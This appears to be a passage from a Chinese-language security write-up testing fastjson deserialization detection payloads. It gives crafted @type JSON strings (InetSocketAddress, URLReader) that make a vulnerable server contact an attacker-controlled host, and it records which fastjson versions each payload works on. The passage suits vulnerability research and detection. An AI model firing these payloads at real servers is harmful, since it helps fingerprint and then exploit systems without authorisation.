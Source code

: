  
实验结论：  
可用  
范围
```
1.2.47
```

  
以下，
```
1.2.9
```

  
以上，即1.2.9<=fastjson版本<=1.2.47；不可用版本1.2.83、1.2.66-1.2.80、1.2.48-1.2.62、1.2.1  
-1.2.8。  
####   
  
测试语句6：【fastjson>=1.2.9】  

```
[{&#34;@type&#34;:&#34;java.net.InetSocketAddress&#34;{&#34;address&#34;:,&#34;val&#34;:&#34;§1§.{{URL}}&#34;}}]
```

  
实验结论：  
可用范围
```
1.2.9
```

  
以上，即fastjson版本>=1.2.9，不可用版本1.2.1-1.2.8。  
####   
#### 测试语句7：【1.2.37<=fastjson<=1.2.68】  

```
{&#34;a&#34;:{&#34;@type&#34;:&#34;java.lang.AutoCloseable&#34;,&#34;@type&#34;:&#34;com.alibaba.fastjson.JSONReader&#34;,&#34;reader&#34;:{&#34;@type&#34;:&#34;jdk.nashorn.api.scripting.URLReader&#34;,&#34;url&#34;:&#34;http://§1§.{{URL}}&#34;}}}
```

  
实验结论：  
可用范围
```
1.2.68
```

  
以下，
```
1.2.37
```

  
以上，即1.2.37<=fastjson版本<=1.2.68；不可用版本1.2.83、1.2.69-1.2.80、1.2.1-1.2.36。  
  
#### 测试语句8：【fastjson>=1.2.9以及fastjson=1.2.83】  
